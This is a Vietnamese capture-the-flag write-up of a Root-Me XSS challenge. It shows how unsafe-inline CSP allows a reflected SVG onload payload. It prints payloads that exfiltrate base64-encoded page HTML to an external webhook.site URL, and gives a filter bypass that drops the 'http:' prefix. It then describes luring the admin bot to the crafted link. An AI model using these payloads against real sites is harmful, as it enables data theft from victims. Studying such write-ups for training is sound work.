Challenge: http://challenge01.root-me.org:58008/

Đầu tiên vào trang web ta có thể nhập 1 cái tên: 


Sau đó ta sẽ thấy input được đưa ra ở phần Welcome:


Vào Burp Suite ta thấy web này set CSP:

Ở đây ta chú ý đến `script-src 'unsafe-inline'` để cẩn thận hơn ta sẽ vào 1 web check CSP để xem có thể tấn công vào đâu: 


Vậy ở đây ta có thể chèn thêm 1 đoạn script, ta sẽ thử với phần input: 



Vậy là có thể XSS ở đây, tiếp tục ta sẽ thử gửi gói tin ra ngoài: 
`challenge01.root-me.org:58008/page?user=<svg onload=location.href="http://webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939">`

Nó đang bị chặn, có 2 cách ở đây là sẽ dùng atob để base64 cái link webhook hoặc chỉ cần bỏ đi phần `http:`:
`challenge01.root-me.org:58008/page?user=<svg onload=location.href="//webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939">`



Tiếp tục ta sẽ lấy HTML của trang này: 
`<svg onload=location.href="//webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939?c=".concat(btoa(document.body.innerHTML))>`


Thành công và ở đây ta có được nội dung của trang web, bây giờ ta cần gửi link này đến admin để admin truy cập link đó:
 


Bây giờ ta cần đợi cho admin đọc nó thì sẽ có gói tin gửi về webhook:


Base64 nó ra: 

